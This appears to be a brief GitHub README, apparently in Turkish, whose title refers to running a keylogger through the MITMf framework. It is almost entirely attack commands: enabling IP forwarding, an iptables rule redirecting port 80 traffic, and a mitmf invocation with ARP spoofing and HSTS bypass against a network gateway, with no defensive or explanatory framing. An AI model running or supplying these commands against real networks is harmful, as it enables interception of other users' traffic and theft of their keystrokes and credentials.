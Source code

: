 # Keylogger-al-t-rma---Mitmf-
For mozila (not chrome)

Dns
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A PREROUTING -p tcp -i eth0 --dport 80 -j REDIRECT --to-port 10000
mitmf -i eth0 -l 10000 --arp --spoof --hsts --gateway <modem_ip>

